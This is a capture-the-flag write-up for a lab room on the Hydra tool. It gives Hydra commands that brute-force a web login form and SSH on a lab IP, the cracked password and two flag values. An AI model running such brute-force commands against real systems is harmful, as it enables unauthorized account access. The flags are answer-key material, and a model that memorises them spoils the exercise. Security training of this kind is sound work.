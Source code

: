 ```yaml
---
title: Hydra
aliases:
  - Hydra
tags:
  - Easy
  - CTF
---
```

## **Task 1: Introduction to Hydra**

Before starting, ensure you have [[content/Tools/Hydra|Hydra]] installed and ready to use. You can install it using:

```bash
sudo apt install hydra -y
```

Once installed, let’s proceed with the tasks.

---

## **Task 2: Brute-Forcing Web Login**

### **Step 1: Identifying the Login Page**

Navigate to the given IP address in your browser to find the login page.

![[images/Pasted image 20250213134342.png]]
### **Step 2: Running Hydra for Web Login**

Use Hydra to perform a brute-force attack on the login page with the `rockyou.txt` wordlist:

```bash
sudo hydra -l molly -P SecLists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt 10.10.170.68 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect." -V
```

Here’s what each parameter means:

- `-l molly`: Specifies the username.
- `-P rockyou.txt`: Uses `rockyou.txt` as the password list.
- `http-post-form`: Targets a form-based login.
- `/login`: The login page URL.
- `username=^USER^&password=^PASS^`: Inserts Hydra’s username and password attempts.
- `incorrect`: The error message indicating a failed login attempt.
- `-V`: Enables verbose mode to show progress.

### **Step 3: Logging in and Retrieving the Flag**

![[images/Pasted image 20250213134547.png]]
Once Hydra cracks the password, log in using `molly:sunshine`. The first flag is displayed after logging in:  

![[images/Pasted image 20250213134629.png]]
![[images/Pasted image 20250213134654.png]]

**Flag 1:** `THM{2673a7dd116de68e85c48ec0b1f2612e}`

---

## **Task 3: Brute-Forcing SSH Login**

### **Step 1: Running Hydra for SSH**

Use Hydra to brute-force Molly’s SSH credentials:

```bash
hydra -l molly -P SecLists/Passwords/Leaked-Databases/rockyou.txt 10.10.170.68 -t 4 ssh
```

![[images/Pasted image 20250213134842.png]]

Once the password is found, log in via SSH:

```bash
ssh molly@10.10.170.68
```

![[images/Pasted image 20250213134946.png]]
### **Step 2: Retrieving the Flag**

After logging in, list files and read the flag:

```bash
ls
cat flag2.txt
```

![[images/Pasted image 20250213135027.png]]

**Flag 2:** `THM{c8eeb0468febbadea859baeb33b2541b}`

---

Hope this guide helps! 🚀